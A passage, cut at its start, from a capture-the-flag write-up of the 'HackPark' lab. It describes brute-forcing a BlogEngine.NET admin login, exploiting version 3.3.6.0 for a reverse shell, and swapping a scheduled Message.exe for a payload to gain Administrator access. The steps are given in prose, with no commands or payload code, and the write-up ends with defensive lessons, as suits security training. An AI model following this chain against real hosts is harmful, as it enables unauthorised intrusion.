I inspected the request in Burp Suite, identified the form parameters, and configured Hydra to recognize the application's failed-login response.

**Impact:** Successful authentication exposed administrative functionality, including the blog's file manager.

## Finding 2: Vulnerable BlogEngine.NET Version

The application was running BlogEngine.NET `3.3.6.0`. Exploit-DB entry `46353` provided a path to server-side code execution through a specially placed ASP.NET user-control file.

I uploaded `PostView.ascx` and triggered the vulnerable application path to obtain a reverse shell.

**Impact:** The vulnerability provided remote code execution in the IIS application-pool context, allowing further enumeration of the Windows host.

## Finding 3: Insecure System Scheduler Executable

The System Scheduler log showed that `Message.exe` was repeatedly executed under the Administrator account.

I used the scheduled-execution information to identify a potential privilege-escalation path involving replacement of the executable with a reverse-shell payload.

**Impact:** The scheduled task launched the replacement payload, resulting in a Meterpreter session identified as `HACKPARK\Administrator`.

---

# Vulnerabilities

## 1. Weak Password Security

The administrative login was susceptible to password guessing using a common password list.

**How it was identified:** I captured the login request in Burp Suite, identified the relevant parameters, and configured Hydra to test authentication attempts against the application's failure response.

**Impact:** An attacker could gain access to administrative functionality if the account used a guessable password and the application lacked effective protections against repeated login attempts.

## 2. BlogEngine.NET Remote Code Execution

The application version exposed an exploitation path involving a specially placed ASP.NET user-control file.

**How it was identified:** I inspected the About page, identified BlogEngine.NET `3.3.6.0`, and researched the version in Exploit-DB.

**Impact:** Successful exploitation provided remote code execution as `iis apppool\blog`, allowing further access to the target.

## 3. Insecure Permissions on a Privileged Scheduled Executable

The System Scheduler logs showed that `Message.exe` was repeatedly executed as Administrator.

**How it was identified:** I enumerated the System Scheduler installation, inspected its `Events` directory, and reviewed `20198415519.INI_LOG.txt`.

**Impact:** Replacing the scheduled executable with a reverse-shell payload allowed code to execute under the scheduled task's privileged context.

---

# Final Result

The HackPark challenge was completed by chaining together web enumeration, administrative password brute-forcing, BlogEngine.NET exploitation, and Windows privilege escalation.

The initial foothold ran as:

```text
iis apppool\blog
```

After exploiting the scheduled execution path, the resulting Meterpreter session ran as:

```text
HACKPARK\Administrator
```

The user and administrator flags are intentionally omitted so that readers must complete the challenge themselves.

---

# Attack Chain Summary

The complete attack path I followed to compromise HackPark was:

```text
Nmap service discovery
        ↓
Homepage inspection and Pennywise identification
        ↓
Gobuster directory enumeration
        ↓
Burp Suite login-request inspection
        ↓
Hydra password brute-forcing
        ↓
BlogEngine.NET administrative access
        ↓
Version discovery: 3.3.6.0
        ↓
Research Exploit-DB #46353
        ↓
Upload and trigger PostView.ascx
        ↓
Reverse shell as iis apppool\blog
        ↓
Generate and transfer Meterpreter payload
        ↓
Obtain Meterpreter session
        ↓
Transfer and run WinPEAS
        ↓
Discover System Scheduler
        ↓
Inspect scheduled execution logs
        ↓
Replace Message.exe with a reverse-shell payload
        ↓
Wait for the scheduled event and receive a callback
        ↓
Verify HACKPARK\Administrator access
        ↓
Complete the user and administrator objectives
```

---

# Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Weak administrative authentication | Enabled password brute-forcing and access to the blog administration portal |
| BlogEngine.NET 3.3.6.0 remote code execution | Provided an initial shell in the IIS application-pool context |
| Insecure permissions affecting a scheduled executable | Allowed replacement of a program executed under Administrator |
| Insufficient protection of privileged execution paths | Enabled escalation from the web application's limited context to Administrator |

---

# Lessons Learned

HackPark demonstrates how multiple weaknesses can be chained together to compromise a Windows host. Nmap and Gobuster helped identify the exposed web application and administrative portal, while Burp Suite provided the request details needed to configure Hydra. This showed the importance of strong authentication and appropriate controls against repeated login attempts.

Identifying the BlogEngine.NET version allowed me to research a relevant public exploit. The resulting reverse shell ran as `iis apppool\blog`, which was a useful foothold but not an administrative account. This distinction highlights why host enumeration is essential after obtaining initial access.

The System Scheduler logs provided the key evidence for the privilege-escalation stage. They showed that `Message.exe` was executed repeatedly under Administrator. Replacing a scheduled executable is dangerous when a lower-privileged account can modify the file or its containing directory. Privileged scheduled tasks should use protected executable paths, restricted write permissions, and appropriately scoped service accounts.

The overall lesson is that initial access and privilege escalation often depend on different weaknesses. A secure environment needs strong authentication, patched web applications, restricted administrative functionality, least-privilege execution contexts, and monitoring for unexpected changes to scheduled programs.

